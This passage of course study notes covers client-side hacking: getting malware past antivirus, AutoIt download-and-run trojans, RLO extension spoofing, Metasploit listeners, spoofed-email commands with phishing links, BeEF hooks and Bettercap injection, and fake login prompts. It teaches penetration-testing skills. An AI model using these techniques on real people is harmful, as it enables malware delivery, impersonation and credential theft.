    * **Manual Coding:** Writing your own unique backdoor from scratch (using Python, C++, etc.) is the most effective way because no database has seen your unique code before.

#### **Method B: Dynamic/Heuristic Analysis (The Behavior Check)**
* **How it works:** This is the advanced method. If the file passes the "Mugshot Check," the AV runs it in a safe, isolated room called a **Sandbox**. It watches what the file *does*.
* **The Red Flags:**
    * Does it try to open a network connection immediately?
    * Does it try to change system files?
    * Does it try to encrypt files (ransomware behavior)?
* **The Metaphor:** The security guard lets you in, but follows you around. If you start trying to pick locks or break windows, he arrests you.
* **How to Bypass:**
    * **Act Normal:** You must make your program behave like a boring, safe application.
    * **Camouflage:** Combine your backdoor with a real program (like a calculator). The user sees a calculator, but the backdoor runs in the background.
    * **Delay Execution:** If the AV sandbox only watches for 10 seconds, make your backdoor "sleep" for 5 minutes before doing anything malicious. The AV will get bored, assume it's safe, and let it run.
    * **Creative Communication:** Instead of a direct suspicious connection, route your traffic through trusted apps like **Discord**, **Telegram**, or **GitHub**. AV software usually trusts these websites, so it won't block the traffic.

### **2. Summary Comparison**

| Feature | Static Analysis | Dynamic Analysis |
| :--- | :--- | :--- |
| **What it checks** | The file's code (Signature). | The file's behavior (Action). |
| **Analogy** | Checking Mugshots. | Watching suspicious behavior. |
| **Bypass Strategy** | Change the code (Encoding/Packing). | Change the timing/behavior (Sleep/Camouflage). |
| **Difficulty** | Easy to bypass. | Harder to bypass. |

### **3. The "Next Step" in Learning**

The instructor notes that this is a huge topic.
* **Tools Approach:** Using pre-made tools (Packers/Obfuscators) is covered in "Social Engineering" courses.
* **Coding Approach:** Writing custom malware (which is much harder to detect) is covered in "Python/Programming" courses.

---

GAINING ACCESS - CLIENT SIDE ATTACKS - SOCIAL ENGINEERING
===

### <span style = "color: #569cd6">Maltego Basics</span>

### **The Big Picture: What is Maltego?**

The lecturer introduces **Maltego** as the ultimate tool for **Information Gathering** (also known as OSINT - Open Source Intelligence).

  * **The Analogy:** The instructor compares Maltego to **Photoshop**. Just as Photoshop is the professional standard for design compared to MS Paint, Maltego is the professional standard for gathering data compared to basic manual searching.
  * **The Goal:** It connects the dots. It doesn't just find information; it visualizes the *relationships* between things (e.g., how a specific email address connects to a website, which connects to a server, which connects to a specific person).

### **1. Key Concepts: The Language of Maltego**

To use the tool, you need to understand its specific vocabulary:

  * **Entities:** These are the "nouns" of your investigation. An entity is a single item you want to investigate.
      * *Examples:* A Person, a Website (Domain), a Phone Number, an IP Address, a Facebook Profile.
  * **Transformers:** These are the "verbs" or plugins. A transformer is a script that takes an entity and asks a specific question to the internet.
      * *Example:* You right-click a "Person" entity and run a transformer called "Get Email Address." Maltego searches databases and returns the results.
  * **The Graph:** This is the workspace where you see the web of connections.

---

### <span style = "color: #569cd6">Intro to Trojans - Backdooring any File Type</span>

### **The Big Picture: The "Trojan Horse" Strategy**

In the previous lectures, you created a backdoor file (`rev_https_8080.exe`). The problem is, if you send an `.exe` file to a regular person, they will be suspicious. Who sends a program file via email?

This lecture introduces a **Social Engineering** trick: **The Trojan Horse**.
You want to present the user with something they *want* (like a funny picture, a PDF report, or a song) while secretly running your backdoor in the background.

* **The Front:** The user sees a picture of a car.
* **The Back:** Your backdoor executes silently.

### **1. The Tool: "Download and Execute" Script**

The instructor provides a pre-written script to do this job. You don't need to be a programmer to use it; you just need to fill in the blanks.
```autoit-download-and-execute.txt``` (downloaded from the udemy course to Kali Linux)

**How the script works:**
It acts like a wrapper or a container. When the victim clicks the final file:
1.  It reaches out to the internet and downloads **File A** (The Image).
2.  It reaches out to the internet and downloads **File B** (The Backdoor).
3.  It opens **File A** on the screen (so the victim is happy).
4.  It runs **File B** in the background (so the hacker is happy).

### **2. Configuring the Script**

To make this work, you need to edit the script and provide the locations of the files you want to download.

**The Syntax:**
The script expects a list of URLs separated effectively by a comma.

`"URL_TO_IMAGE" , "URL_TO_BACKDOOR"`

* **First URL:** The decoy file. (e.g., A picture of a car found on Google).
* **The Separator:** A **Comma (`,`)**. This is crucial. It tells the script where one link ends and the next begins.
* **Second URL:** The malicious file. (e.g., The link to your `evil-files` server we set up in the previous lecture).

```Local $urls = "url1,url2"```


### **3. The Golden Rule: "Direct URLs"**

The lecturer emphasizes this multiple times because it is the #1 mistake beginners make.

**What is a Direct URL?**
A direct URL points *only* to the file data, not a webpage *containing* the file.

* **❌ Bad Link (Webpage):** `www.google.com/search?q=car`
    * *Why it fails:* This loads HTML code, ads, comments, and a "Download" button. The script cannot "click" buttons; it gets confused by the HTML.
* **✅ Good Link (Direct):** `www.example.com/images/car.jpg`
    * *Why it works:* It ends in a file extension (like `.jpg`, `.png`, `.exe`, `.pdf`). When you visit this link, the browser shows *only* the image or immediately starts the download.

**How to check:**
Copy the link you want to use and paste it into a private browser window.
* If you see a whole webpage with text and menus -> **It will fail.**
* If you see *only* the image on a white/black background -> **It will work.**
* If the file immediately downloads without asking -> **It will work.**

### **4. The Example Used**

In the lecture, the instructor sets up the script like this:

1.  **Finds a Decoy:** He searches Google Images for a "Car," right-clicks "View Image," and copies the direct link ending in `.jpg`.
2.  **Uses the Backdoor:** He uses the link to his own Kali Apache server (from the previous lecture): `http://10.20.14.213/evil-files/rev_https_8080.exe`.
3.  **Combines them:**
    `"http://.../car.jpg", "http://.../rev_https_8080.exe"`

### **Summary Checklist**
1.  **The Goal:** Make the victim feel safe by showing them a real image while hacking them.
2.  **The Method:** A script that downloads and runs multiple files at once.
3.  **The Syntax:** Separate every URL with a comma.
4.  **The Requirement:** Every URL must be a **Direct Link** (ending in `.exe`, `.jpg`, etc.).

---

### **The Goal: The Perfect Disguise**
In the previous lecture, you wrote a script that downloads an image and a backdoor simultaneously. However, that script was just a text file. You cannot send a text file to a victim and expect it to run.

This lecture covers **Compilation**: turning that text script into a working `.exe` program that *looks* exactly like an image file, completing the illusion.

### **1. The Tool: AutoIt Compiler**
The script you wrote uses a language called **AutoIt**.
* **What it is:** A scripting language designed for automating Windows tasks. Hackers love it because it's easy to write and compile.
* **The Compiler:** The instructor uses a tool called "Compile Script to .exe" (often shortened to `Aut2Exe`). This tool takes your text file and "bakes" it into a finished application.

### **2. The Secret Ingredient: The Icon**


This is the most critical part of the social engineering.
* **The Problem:** By default, an `.exe` file looks like a generic application box. If a user sees that, they won't click it.
* **The Solution:** You can force the `.exe` to wear a "mask"—a custom icon.
* **The Trick:** Since the decoy file is an image of a **GT-R car**, the instructor wants the program's icon to be a tiny thumbnail of that *exact same car*.

**How to make the icon:**
1.  **Download the Image:** Save the car image (`.jpg`) to your computer.
2.  **Convert to Icon:** You cannot just use a JPG as an icon. Windows requires a specific file format called `.ico`.
3.  **Online Converter:** The instructor uses a website (<https://www.rw-designer.com/image-to-icon>) to upload the JPG and download a converted `.ico` file.

### **3. The Compilation Process (Step-by-Step)**

The instructor opens the "Compile" tool and fills in three fields:

1.  **Source (Input):**
    * He selects the `AutoIt` script text file created in the last lecture.
2.  **Destination (Output):**
    * He chooses where to save the final file.
3.  **Custom Icon:**
    * He browses and selects the `car.ico` file he just created.

**Click "Convert":**
The tool churns for a second and produces `GT-R Image.exe`.
* To the naked eye, this file looks *exactly* like a photo of a car. It has the thumbnail, and if you name it cleverly (like `GT-R_Image.exe`), most users won't notice the extension.

```bash
# in hacker computer
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.189.131
set LPORT 8080
show options
exploit

# in victim computer, access: "http://192.168.189.131/evil-files/cute-image.exe"
```
---

### <span style = "color: #569cd6">Spoofing .exe Extension to Any Extension</span>

### **The Final Problem: The `.exe` Extension**

In the previous lectures, you created a perfect Trojan:
1.  **Icon:** Looks like an image.
2.  **Function:** Opens a real image (while hacking in the background).
3.  **The Flaw:** The file name still ends in `.exe` (e.g., `car.exe`).

If a victim has "Show file extensions" enabled on Windows, they will see `.exe` and know it's a program, not a picture. This lecture teaches how to hide that last clue.

### **1. The Trick: Right-to-Left Override (RLO)**

The instructor uses a special hidden character called the **Right-to-Left Override (RLO)**.
<https://unicode-explorer.com/c/202E>

* **What it is:** This character is designed for languages that are read from right to left (like Arabic or Hebrew). When a computer sees this character, it flips the direction of the text that follows it.
* **The Hack:** We place this character *in the middle* of the file name to flip the letters of the extension, making the dangerous `.exe` look like a safe `.jpg`.

### **2. How the Name Flip Works**

This is the most confusing part, so let's break down the character manipulation step-by-step.

**The Goal:**
We want the file to *act* like an executable (`.exe`) but *look* like an image (`.jpg`).

**The Setup:**
1.  We start with a file name: `gtrgpj.exe`
    * *Wait, why `gpj`?* Because we are going to flip it! `gpj` backwards is `jpg`.
2.  We insert the **RLO character** right after the name `gtr`.

**The Transformation:**


* **Actual System Name:** `gtr` + `[RLO]` + `gpj.exe`
* **What the User Sees:** The computer reads `gtr`, hits the `[RLO]`, and then displays the rest (`gpj.exe`) backwards.
    * `exe` becomes `exe` (flipped)
    * `.` becomes `.`
    * `gpj` becomes `jpg`
* **Visual Result:** `gtr` + `exe.jpg`

To the user, the file is named **`gtrexe.jpg`**.
To the computer, the file is still an `.exe` application.

### **3. Naming Strategy**

Since the letters immediately following the RLO character get flipped, your file name needs to make sense *after* the flip.
* The instructor suggests using names that end in "ex" or "exe" so the flip looks natural.
* **Example:**
    * Name: `Refl` + `[RLO]` + `cod.exe`
    * Becomes: `Refl` + `exe.doc` (Looks like a Word document named "Reflexe").

### **4. Delivery: Using a ZIP File**

The instructor adds a crucial final step: **Zipping the file.**

* **The Problem:** Modern web browsers (like Chrome or Firefox) and some email providers are smart. If they detect a raw file containing the RLO character, they might strip it out or flag it as dangerous "Malware."
* **The Solution:** Compressing the file into a `.zip` or `.rar` archive protects it. The browser downloads the ZIP safely. When the victim unzips it on their desktop, the RLO character is preserved, and the file spoofing works.

### **Summary Checklist**
1.  **RLO Character:** A special Unicode character that flips text direction.
2.  **The Flip:** `gpj.exe` (backwards) -> `exe.jpg`.
3.  **The Result:** A file that executes code but looks like an image.
4.  **Protection:** Always put the spoofed file inside a ZIP archive to bypass browser filters.

### **Final Course Status**
You have now fully completed the **Client Side Attacks** section!
* You built a backdoor (`msfvenom`).
* You set up a listener (`msfconsole`).
* You disguised the backdoor as an image (`AutoIt` + Icon).
* You spoofed the extension (`RLO` trick).

---

### <span style = "color: #569cd6">Spoofing Emails - Setting Up an SMTP Server</span>

### **The Big Picture: The Delivery Problem**
You have spent the last few lectures building a sophisticated "digital weapon" (the Trojan). However, a weapon is useless if it sits on your own computer. You need a way to get it onto the victim's machine *and* convince them to open it. 
**SMTP Server**: Simple Mail Transfer Protocol Server

The instructor introduces **Email Spoofing** as the solution. This is a form of Social Engineering where you pretend to be someone the victim trusts.

### **1. The Scenario: "The Man in the Middle"**


To make this realistic, the instructor sets up a specific role-play scenario based on information gathered in previous steps:
* **The Target (Victim):** Zaid (`zaid@isecurity.org`).
* **The Persona (Impersonation):** Mohammad Askar (`m.askar@isecurity.org`), who is a friend or colleague of Zaid.
* **The Goal:** Send an email that looks *exactly* like it came from Mohammad, asking Zaid to download the malicious file.

**Why this works:** If you receive an email from a stranger with an attachment, you delete it. If you receive an email from your boss or best friend with an attachment, you usually click it without thinking.

### **2. The Technical Challenge: The Spam Folder**
This is the most critical technical lesson in this lecture. You cannot just use any tool to send fake emails.

* **The "Easy" Way (Public Spoofers):**
    There are many free websites online that let you send anonymous emails.
    * **The Problem:** These servers are used by thousands of scammers every day. Gmail, Outlook, and Yahoo have "blacklisted" these servers.
    * **The Result:** If you use them, your email goes straight to the **Spam/Junk folder**. The victim will never see it.

=> 2 solutions: using a web hosting plan or using an email service

* **The "Pro" Way (Dedicated SMTP):**
    To get into the **Inbox** (Primary tab), you need a "clean" reputation.
    * **The Solution:** Sign up for a legitimate **Email Marketing Service** (like SendGrid, **Brevo**, or Mailgun). These are companies used by real businesses (like Uber or Spotify) to send newsletters.
    * **Why it works:** Because these companies ban spammers and verify users (via phone number), Gmail and Outlook trust their servers. If you send your fake email through them, it looks legitimate to the spam filters.

### **3. Setting Up the Infrastructure**

1.  **Sign Up:** Create an account on an Email Marketing platform.
2.  **Verification:** Providing a real **Phone Number**.
    * *Why?* High-quality services use phone verification to keep bots and spammers out. This exclusivity is exactly what keeps their "Reputation" high and ensures your emails hit the Inbox.
3.  **Select a Plan:** The "Free Tier" is usually sufficient for hacking/testing because you only need to send one or two targeted emails, not thousands.

---

### <span style = "color: #569cd6">Spoofing Emails - Sending Emails as Any Email Account</span>

### **The Goal: Sending the Fake Email**
Now that you have a "clean" mail server account (from the previous lecture), you need a tool to actually send the email from your Kali machine. The instructor uses a command-line tool called **`sendemail`**.

### **1. The Command Breakdown**
The instructor builds a long command step-by-step. It helps to view this command in two distinct parts: **Authentication** (Logging in) and **Composition** (Writing the fake email).

#### **Part A: Authentication (The Real Info)**
These flags tell the server who you *really* are so it allows you to send mail.
* **`-xu` (Username):** Your login for the SMTP service (e.g., `jhnwck70@gmail.com`).
* **`-xp` (Password):** Your password for the SMTP service.
* **`-s` (Server):** The address of the SMTP server followed by the port.
    * *Format:* `smtp-relay.sendinblue.com:587`
    * *Note:* Port **587** is standard for secure email submission.

#### **Part B: Spoofing (The Fake Info)**
This is the "magic" part. Even though you logged in as *User A*, you can tell the server to label the email as coming from *User B*.
* **`-f` (From):** The email address you want the victim to *see*.
    * *Value:* `m.askar@isecurity.org` (The trusted friend).
* **`-t` (To):** The victim's email address.
    * *Value:* `zaid@isecurity.org` (The target).

#### **Part C: The Content**
* **`-u` (Subject):** The subject line (e.g., "Check out this car").
* **`-m` (Message):** The actual body text of the email.

### **2. The Social Engineering Strategy**

#### **The Dropbox "Direct Download" Trick**
The instructor uses Dropbox to host the malicious file, but he uses a specific URL trick to ensure the victim runs it immediately.

* **The Default Link:** Dropbox links usually end in `dl=0`.
    * *Result:* When clicked, it opens a Dropbox *webpage* with a preview of the file and a "Download" button. This gives the victim time to think or hesitate.
* **The Hacker Trick:** Change the end of the URL to **`dl=1`**.
    * *Result:* When clicked, the browser **immediately downloads** the file without opening the Dropbox page. It removes a step and increases the success rate.

#### **Tone and Context**
Because the attacker is pretending to be a friend (`m.askar`), the tone is casual ("Hey man..."). If they were pretending to be a bank or a boss, the tone would be formal. Matching the tone is crucial for the disguise.

```bash
sendemail -xu hehe@gmail.com -xp matkhau -s smtp-relay.sendinblue.com:587 -f "fake@lala.org" -t "victim@lala.org" -u "title of the email" -m "Hey! I have something to tell you! download this now! http://www.dropbox.com/s/nsp404bdef.cute.zip?dl=1"
```


### **3. The Current Limitation**
* **What works:** The email arrives in the Inbox (not Spam) and shows the spoofed email address (`m.askar@isecurity.org`).
* **What's missing:** Most email clients display a **Sender Name** (e.g., "Mohammad Askar") next to the email address. Currently, our email just shows the raw email address.

---

### <span style = "color: #569cd6">Spoofing Emails - Spoofing Sender Name</span>

### **The Goal: The Perfect Identity**
In the previous lecture, the email arrived safely, but it only showed the raw email address (`m.askar@isecurity.org`). Real emails from friends usually display their **Full Name** (e.g., "Mohammad Askar").

### **1. The Command Upgrade: Advanced Headers**
The instructor uses the same `sendemail` tool but adds a specific "Advanced Option" flag (`-o`).

* **The Logic:** Email clients (like Gmail or Outlook) look at the "Header" of an email to decide what to display to the user. By manually rewriting this header, you can force the client to display whatever name you want.

* **The Syntax:**
    The flag is `-o message-header=...`.
    You specifically want to change the **"From"** header.

    **The Format:**
    `"From: [Fake Name] <[Fake Email]>"`

* **The Full Flag Used:**
    `-o message-header="From: Mohammad Askar <m.askar@isecurity.org>"`

**How the Command Looks Now:**
The command is now split into three logical parts:
1.  **Login (Real):** `-xu [User] -xp [Pass] -s [Server]` (Authenticating with the mail server).
2.  **Compose (Content):** `-t [Target] -u [Subject] -m [Body]` (Writing the email).
3.  **Spoof (Fake):** `-f [FakeEmail] -o message-header="From: Name <FakeEmail>"` (Lying about the sender).

```bash
sendemail -xu hehe@gmail.com -xp matkhau -s [smtp server]smtp-relay.sendinblue.com:587 -f "fake@lala.org" -t "victim@lala.org" -u "title of the email" -m "Hey! I have something to tell you! download this now! http://www.dropbox.com/s/nsp404bdef.cute.zip?dl=1" -o messgae-header="From: Homie <fake@lala.org>"
```

### **2. The Result**
When the victim receives this email:
* **Sender Name:** "Mohammad Askar" (Perfect match).
* **Photo:** If the victim's email client has a contact photo saved for that email address, it will display that photo automatically.
* **Trust:** Because it looks exactly like previous real emails from Mohammad, the victim clicks the link without hesitation.

### **3. The Reality Check: DMARC and SPF**
The instructor ends with a crucial warning. This attack is powerful, but it **does not work on every domain**.

* **The Defense:**
    Modern domains use security protocols called **SPF** (Sender Policy Framework) and **DMARC** (Domain-based Message Authentication, Reporting, and Conformance).
    * *Analogy:* Think of DMARC as a "Guest List" at a club. If a domain (like `google.com`) has DMARC enabled, it tells the world: "Only *these* specific servers are allowed to send email as Google. If you see an email from Google coming from a stranger's server, delete it."

* **The Vulnerability:**
    The attack works because **many organizations (claimed 80%) do not set up DMARC correctly**.
<easydmarc.com/tools/dmarc-lookup>
    * *The Test:* The instructor visits a DMARC checker website. He types in the target domain (`zsecurity.org`). The result shows "No DMARC record found."
    * *The Meaning:* This means `zsecurity.org` has **no guest list**. Anyone on the internet can pretend to be them, and email servers will accept it.

### **Summary Checklist**
1.  **Visual Spoofing:** Use `-o message-header` to add the Friendly Name.
2.  **Targeting:** This works best against domains that lack email security (DMARC).
3.  **Platform Agnostic:** This delivery method works for any target (Windows, Mac, Android) as long as the attachment file works on that device.
4.  **Defense:** If you own a domain, you *must* enable DMARC to prevent hackers from impersonating you.

---

### <span style = "color: #569cd6">Spoofing Emails - Method 2</span>

### **The Big Picture: Why use Web Hosting?**

In the previous lecture, you acted like a mailman carrying a letter to the post office (using an SMTP client on your computer). In *this* lecture, you are renting the entire post office.

* **The Concept:** Instead of using a tool on your computer (like `sendemail`) to connect to a server, you upload a small script (a "robot") to a paid web server. You tell the robot what to write, and the server sends the email for you.
* **The Advantage:** Web servers are powerful. They are trusted by other mail servers (like Gmail or Yahoo) because they are legitimate businesses. This typically gives you excellent **Inbox delivery rates**.

### **1. The Prerequisites**

* **Free vs. Paid:** You generally **cannot** use free web hosting (like 000webhost). Free providers almost always block the "send email" function to prevent spammers.
* **The Solution:** You need a **Cheap Paid Plan** (e.g., **DreamHost**, HostGator, Bluehost). Even the cheapest "Shared Hosting" plan ($3-5/month) works perfectly because it unlocks the PHP `mail()` function.

### **2. The Setup: "The Robot" (`send.php`)**

The core of this attack is a simple PHP script provided in the course resources. You don't need to know how to code to use it; you just need to know where to put it.


**The Workflow:**
1.  **Access File Manager:** Log into your hosting control panel and find the **File Manager**.
2.  **Locate Public Folder:** Open the `public_html` (or just `public`) folder. This is the only folder the outside world can see.
3.  **Upload:** Upload the `send.php` file here.

*Note on Extension:* The instructor mentions uploading it as a `.txt` first if the uploader blocks `.php`, then renaming it to `.php` inside the file manager.

### **3. The Execution: The Web Form**

Once the file is uploaded, you don't use your terminal anymore. You use your browser.

1.  **Navigate:** Go to `www.your-hosting-domain.com/send.php`.
2.  **The Interface:** You will see a simple form asking for:
    * **To:** The victim's email.
    * **From:** The fake email (e.g., `adrian@zsecurity.org`).
    * **Name:** The fake name (e.g., "Adrian Bude").
    * **Subject/Body:** The content.
3.  **Send:** When you click Submit, the web server executes the code and dispatches the email immediately.

### **4. The Results: Why is this better?**

The instructor demonstrates that this method is highly effective for one key reason: **Contact Syncing**.

* **The Profile Picture Trick:**
    * If the victim has the "Fake Sender" saved in their contacts (e.g., they have Adrian saved in their phone), Gmail will see the incoming email, match the email address, and **automatically display Adrian's real profile picture and phone number**.
    * This happens even though the email didn't actually come from Adrian. The email client trusts the address you spoofed.

* **The "Via" Warning (The Catch):**
    * Because you are sending from a hosting server (e.g., `dreamhost.com`) but claiming to be from `gmail.com` or `zsecurity.org`, sophisticated inboxes (like Gmail) might display a small grey tag saying: *"via dreamhost.com"*.
    * However, most mobile users and non-technical users ignore this tag, especially if the profile picture looks correct.

### **Summary Comparison**

| Feature | Method 1: SMTP Client (`sendemail`) | Method 2: Web Hosting (`send.php`) |
| :--- | :--- | :--- |
| **Tool** | Command Line (Kali Linux) | Web Browser |
| **Cost** | Free (using free SMTP relay) | Paid (~$5/mo hosting) |
| **Complexity** | High (Authentication/Flags) | Low (Fill out a form) |
| **Inbox Rate** | Variable (Depends on SMTP rep) | **High** (Hosting servers have good rep) |

---

### <span style = "color: #569cd6">BeEF Overview & Basic Hook Method</span>

### **Introduction to BeEF**

**BeEF** (Browser Exploitation Framework) is a powerful security tool designed to turn a web browser into an attack vector. Unlike other tools that attack the operating system directly, BeEF focuses on "hooking" the web browser to assess the security posture of a target. Once a browser is hooked, the attacker can execute commands, steal credentials, scan the internal network, or even gain full control over the system.

### **1. Getting Started**

To use BeEF on Kali Linux, follow these steps as demonstrated in the lecture:

* **Launch:** Open the terminal or application menu and run `beef start`.
* **Set Password:** If it is your first time running it, the terminal will ask you to set a password for the `beef` user. (Note: Characters will not appear on screen while typing for security).
* **Web Interface:** BeEF will automatically open your browser to the control panel (usually `http://127.0.0.1:3000/ui/panel`).
* **Login:** Use the username `beef` and the password you just set.


### **2. The "Hook": How It Works**

The core mechanism of BeEF is a small piece of **JavaScript** code. For BeEF to work, the victim's browser must execute this specific script.


The script looks like this:
`<script src="http://<Your-Kali-IP>:3000/hook.js"></script>`

When a browser loads this line of code, it reaches out to your BeEF server and becomes "hooked." It will then appear in your BeEF control panel, allowing you to send commands to it.

**Delivery Methods:**
* **Man-in-the-Middle (MITM):** Inject the script into non-secure pages the victim visits.
* **XSS (Cross-Site Scripting):** Inject the script into a vulnerable legitimate website.
* **Social Engineering:** Trick the victim into visiting a webpage you control that contains the hook.

### **3. Practical Demo: Hosting the Hook**

The lecture demonstrates the **Social Engineering** method by hosting a malicious page on your own machine:

1.  **Locate Web Root:** Navigate to `/var/www/html/` (the default folder for the Apache web server).
2.  **Create the Page:** Edit the `index.html` file.
3.  **Insert the Hook:** Paste the hook script into the file.
    * *Crucial Step:* Change the IP address in the script (e.g., `127.0.0.1`) to your actual Kali machine IP (found using `ifconfig`).
4.  **Start Server:** Run `service apache2 start` to turn on your web server.
5.  **Execute:** When the victim visits your IP address, their browser loads the `index.html`, executes the JavaScript, and connects back to you.

### **4. The Control Panel**

Once a victim is hooked, their IP address appears in the **Online Browsers** panel on the left. Clicking it reveals several tabs:

* **Details:** Displays gathered intelligence about the victim (Browser version, OS, Screen size, Plugins, etc.).
* **Logs:** Shows a history of events and commands executed.
* **Commands:** This is the main attack menu. It contains modules to:
    * Steal passwords (via fake login prompts).
    * Detect social media sessions.
    * Redirect the browser.
    * Scan the victim's local network.

To stop the framework, simply run `beef stop` in your terminal.

---

### <span style = "color: #569cd6">BeEF - Hooking Targets Using Bettercap</span>

**Injecting the BeEF Hook using Man-in-the-Middle (MitM) attacks**.

### **The Goal: "Hooking" Without Clicking**

In the previous lecture, you had to trick the victim into visiting *your* specific malicious webpage (like the one hosted on your IP).
In *this* lecture, the method is much more dangerous. By performing a **Man-in-the-Middle (MitM)** attack, you can inject the BeEF hook into **ANY** website the victim visits (e.g., StackOverflow, Bing, a news site).

  * **The Concept:** You stand in the middle of the victim's connection. When they ask for a webpage, you fetch it for them, but before giving it to them, you secretly "glue" your malicious BeEF code onto it.

### **Step 1: Preparing the Injection Script**

You cannot paste the entire BeEF hook code directly into the Bettercap configuration because it's too long. Instead, we use a small JavaScript file that acts as a loader.

1.  **The File:** The instructor uses a file named `inject_beef.js`.
2.  **The Code:** This script simply tells the browser: *"Hey, create a new script element and load the resource located at `http://[Attacker_IP]:3000/hook.js`."*
3.  **The Configuration:** You must open this file and change the IP address to your **Kali Linux IP** (e.g., `10.20.14.207`).

### **Step 2: Configuring Bettercap**

Now you need to tell **Bettercap** (the tool doing the MITM attack) to insert this file into the traffic it intercepts.

The instructor modifies the **HSTS Hijack Caplet** (`hstshijack.cap`). This file controls how Bettercap handles secure traffic.

**The Modification:**
He edits the `payloads` line in the caplet file. The syntax used is:
`[Target_Domains]:[Path_To_Script]`

  * **Target Domains:** `*` (This means "Inject into ALL websites").
  * **Path:** `/root/Downloads/injectbeef.js` (The file we prepared in Step 1).

**The Final Config Line looks something like this:**
`set hstshijack.payloads  ...,*:/root/Downloads/inject_beef.js`

### **Step 3: Launching the Attack**

Now the trap is set. The instructor runs the attack in two stages using the terminal:

1.  **Start Spoofing (ARP Spoofing):**

    ```bash
    bettercap -iface eth0 -caplet spoof.cap
    ```

      * *What this does:* It tells the network, "I am the router." All traffic from the victim now flows through your computer.

2.  **Start Hijacking (HSTS Bypass & Injection):**
    Inside the Bettercap console, he types:

    ```bash
    hstshijack/hstshijack
    ```

      * *What this does:*
          * **Downgrades HTTPS:** It forces secure sites (HTTPS) to load as insecure (HTTP) so you can read and modify them.
          * **Injects Code:** It reads your `injectbeef.js` and inserts it into every page the victim loads.

### **Step 4: The Result**

1.  **The Victim's View:** They browse to a normal site like `stackoverflow.com`. The site loads normally (though it might be HTTP instead of HTTPS).

2.  **The Attack:** Behind the scenes, the browser unknowingly executes your injected script.

3.  **The Hook:** The script reaches out to your BeEF server.

4.  **Success:**

    On your Kali machine, the victim's IP address appears in the **BeEF Online Browsers** panel. You now have control over their browser session.

### **Summary Checklist**

1.  **Prepare:** Edit `inject_beef.js` with your Kali IP.
2.  **Configure:** Edit `hstshijack.cap` to include the path to `inject_beef.js`.
3.  **Execute:** Run Bettercap with `spoof.cap` and then activate `hstshijack`.
4.  **Verify:** Check the BeEF interface for the new hooked browser.

---

### <span style = "color: #569cd6">Running Basic Commands On Targets</span>

### **The Control Center: Using Commands**

Once a browser is "hooked," the **Commands** tab becomes your control panel. The instructor explains that while there are hundreds of available commands (too many to cover in one video), they all work similarly:
1.  **Select:** Find the command in the category list (or use the Search bar).
2.  **Configure:** Set any necessary options (like the text you want to display or the URL to redirect to).
3.  **Execute:** Click the "Execute" button at the bottom right.
4.  **View Results:** Click the command in the history log to see the output (e.g., the screenshot returned).

### **1. Basic Connectivity Tests**
These commands are mostly used to verify that your "hook" is still active and working.

* **Alert Dialog:**
    * **Function:** Pops up a standard JavaScript alert box on the victim's screen with a message you write (e.g., "Test").
    * **Why use it?** It is the quickest way to confirm you have control. If the box appears on their screen, the connection is good.
* **Raw JavaScript:**
    * **Function:** This is a "power user" tool. It allows you to write *any* custom JavaScript code and run it on the victim's machine.
    * **Use Case:** If BeEF doesn't have a pre-made button for a specific attack you want to do (like a specific keylogger or data scraper), you can paste your own code here.

### **2. Surveillance Modules**
These commands allow you to spy on the user without them knowing.

* **Spyder Eye (Screenshot):**
    * **Function:** Takes a snapshot of the *content* inside the browser window and sends the image back to you.
    * **Use Case:** Seeing exactly what the victim is looking at (e.g., banking details, private emails) in real-time.
* **Webcam:**
    * **Function:** Attempts to turn on the victim's webcam. (Note: Modern browsers usually ask the user for permission first, so this is harder to pull off unnoticed).

### **3. Social Engineering & redirection**
This is one of the most dangerous categories. These commands manipulate the browser to trick the user into making a mistake.

* **Redirect Browser:**
    * **Function:** Forcibly changes the website the victim is looking at. You type a URL (e.g., your malicious site), and their browser immediately loads it.
    * **The Strategy:** The instructor highlights that this is rarely used just for fun. It is a **setup** for a bigger attack:
        * **Phishing:** Redirect them from a real site to a fake login page you control.
        * **Malware Delivery:** Redirect them to a page that says "Critical Update Required" which automatically downloads your Backdoor (Trojan).

---
### <span style = "color: #569cd6">BeEF - Stealing Passwords Using A Fake Login Prompt</span>

Here is the detailed explanation of the **Social Engineering Credential Harvester** lecture (often called the **"Pretty Theft"** module in BeEF).

### **The Goal: Stealing Passwords via "Session Timeout"**

In previous lectures, you learned how to redirect a user to a fake website. However, smart users might notice the URL is wrong (e.g., `faceb00k.com` instead of `facebook.com`).

This lecture introduces a smarter, cleaner way to steal passwords that **does not** require the user to leave the current page.

### **1. The Concept: The "Pop-Up" Trick**

Instead of sending the victim to a fake website, this attack draws a fake login box *on top* of the website they are currently visiting.

* **The Lie:** The browser dims the background and shows a message: *"You have been logged out of your session. Please log in again to continue."*
* **The Psychology:** This is a common occurrence on the internet. Users are used to sessions timing out, so they instinctively type their password to get back to what they were doing without checking the URL.

### **2. Why this is Dangerous (Bypassing HTTPS/HSTS)**

The instructor highlights a critical security advantage of this method:

* **HTTPS/HSTS:** These are security protocols that ensure you are connected to the real, encrypted `facebook.com`.
* **The Bypass:** Because you are **not** redirecting the user to a fake server, you aren't fighting these protocols. You are simply injecting a drawing of a login box onto the current page. The browser thinks it's just part of the current website, so no security warnings are triggered.

### **3. The Attack Steps**

1.  **Select the Module:** Inside BeEF, navigate to the **Social Engineering** category and find the credential harvester module (often named "Pretty Theft").
2.  **Choose the Template:** You can select which brand you want to mimic from a dropdown menu.
    * *Examples used:* **Facebook**, **YouTube**, LinkedIn, Google, etc.
3.  **Execute:** Click the button to launch.

### **4. The Victim's Experience**

1.  **The Trigger:** Suddenly, their screen goes dark (greyed out).
2.  **The Pop-up:** A crisp, official-looking floating box appears in the center with the Facebook (or YouTube) logo.
3.  **The Action:** The victim types their username (`zaid`) and password (`123456`) and hits "Log In."
4.  **The Disappearance:** The box usually disappears, returning them to the page, leaving them confused but assuming it worked.

### **5. The Result**

Back on your BeEF control panel:
* The **Command History** logs the input.
* You see clear text:
    * `Username: zaid`
    * `Password: 123456`

---

### <span style = "color: #569cd6">BeEF - Hacking Windows 10 Using A Fake Update Prompt</span>

Delivering a payload via a Fake Notification Bar

### **The Goal: Escaping the Browser**
So far, BeEF has given you control over the victim's *browser* (stealing cookies, redirecting pages). But ethical hackers want more—they want control over the *Computer* (System Access).

To do this, we need the victim to download and run the **Backdoor** (the `.exe` file) we created in the earlier lectures. This lecture combines everything you have learned so far into one complete attack chain.

### **1. The Strategy: The "Fake Update"**
Users are trained to update their software. When a browser says "Plugin Missing" or "Critical Update," users often click "Install" without thinking.

